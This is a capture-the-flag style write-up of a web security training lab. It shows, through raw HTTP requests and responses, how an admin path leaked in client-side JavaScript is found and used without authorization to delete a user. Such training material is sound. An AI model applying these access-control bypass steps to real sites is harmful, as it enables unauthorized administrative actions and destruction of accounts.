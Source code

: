 ## Lab: Unprotected admin functionality with unpredictable URL

This lab has an unprotected admin panel. It's located at an unpredictable location, but the location is disclosed somewhere in the application.

Solve the lab by accessing the admin panel, and using it to delete the user `carlos`.

## Solution:
When entering the root of the site we find a script-tag in the response containing some javascript that creates an a-tag with a href pointing to ```/admin-4akd4x``` if the isAdmin variable is set to true. But we get the endpoint either way.

Request:
```http
GET / HTTP/1.1
Host: 0a00009103afc0ff8468407900eb00c8.web-security-academy.net
Sec-Ch-Ua: "Chromium";v="131", "Not_A Brand";v="24"
Sec-Ch-Ua-Mobile: ?0
Sec-Ch-Ua-Platform: "Linux"
Accept-Language: en-GB,en;q=0.9
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/131.0.6778.140 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Sec-Fetch-Site: none
Sec-Fetch-Mode: navigate
Sec-Fetch-User: ?1
Sec-Fetch-Dest: document
Accept-Encoding: gzip, deflate, br
Priority: u=0, i
Connection: keep-alive
```

Response:
```http
HTTP/2 200 OK
Content-Type: text/html; charset=utf-8
Set-Cookie: session=u8F4uANMbpVZjR20J1AWQTiHYgSsJq3x; Secure; HttpOnly; SameSite=None
X-Frame-Options: SAMEORIGIN
Content-Length: 11051

<!DOCTYPE html>
<html>
    <head>
        <link href=/resources/labheader/css/academyLabHeader.css rel=stylesheet>
        <link href=/resources/css/labsEcommerce.css rel=stylesheet>
        <title>Unprotected admin functionality with unpredictable URL</title>
    </head>
**********SNIP**********
<script>
var isAdmin = false;
if (isAdmin) {
   var topLinksTag = document.getElementsByClassName("top-links")[0];
   var adminPanelTag = document.createElement('a');
   adminPanelTag.setAttribute('href', '/admin-4akd4x');
   adminPanelTag.innerText = 'Admin panel';
   topLinksTag.append(adminPanelTag);
   var pTag = document.createElement('p');
   pTag.innerText = '|';
   topLinksTag.appendChild(pTag);
}
</script>
**********SNIP**********
```

We try to send a request to this endpoint.
Request:
```http
GET /admin-4akd4x HTTP/2
Host: 0a00009103afc0ff8468407900eb00c8.web-security-academy.net
Cookie: session=u8F4uANMbpVZjR20J1AWQTiHYgSsJq3x
Sec-Ch-Ua: "Chromium";v="131", "Not_A Brand";v="24"
Sec-Ch-Ua-Mobile: ?0
Sec-Ch-Ua-Platform: "Linux"
Accept-Language: en-GB,en;q=0.9
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/131.0.6778.140 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Sec-Fetch-Site: none
Sec-Fetch-Mode: navigate
Sec-Fetch-User: ?1
Sec-Fetch-Dest: document
Accept-Encoding: gzip, deflate, br
Priority: u=0, i
```

Response:
```http
HTTP/2 200 OK
Content-Type: text/html; charset=utf-8
Cache-Control: no-cache
X-Frame-Options: SAMEORIGIN
Content-Length: 3536

<!DOCTYPE html>
<html>
    <head>
        <link href=/resources/labheader/css/academyLabHeader.css rel=stylesheet>
        <link href=/resources/css/labs.css rel=stylesheet>
        <title>Unprotected admin functionality with unpredictable URL</title>
    </head>
**********SNIP**********
                    <section>
                        <h1>Users</h1>
                        <div>
                            <span>wiener - </span>
                            <a href="/admin-4akd4x/delete?username=wiener">Delete</a>
                        </div>
                        <div>
                            <span>carlos - </span>
                            <a href="/admin-4akd4x/delete?username=carlos">Delete</a>
                        </div>
                    </section>
**********SNIP**********
```

In the response snippet we find the URI:s for deleting users again.
Request:
```http
GET /admin-4akd4x/delete?username=carlos HTTP/2
Host: 0a00009103afc0ff8468407900eb00c8.web-security-academy.net
Cookie: session=u8F4uANMbpVZjR20J1AWQTiHYgSsJq3x
Sec-Ch-Ua: "Chromium";v="131", "Not_A Brand";v="24"
Sec-Ch-Ua-Mobile: ?0
Sec-Ch-Ua-Platform: "Linux"
Accept-Language: en-GB,en;q=0.9
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/131.0.6778.140 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Sec-Fetch-Site: none
Sec-Fetch-Mode: navigate
Sec-Fetch-User: ?1
Sec-Fetch-Dest: document
Accept-Encoding: gzip, deflate, br
Priority: u=0, i
```

Response:
```http
HTTP/2 302 Found
Location: /admin-4akd4x
X-Frame-Options: SAMEORIGIN
Content-Length: 0
```

We get a 302 which redirects us back to the admin panel with the message  
![](Deleted_User_Successfully.png)
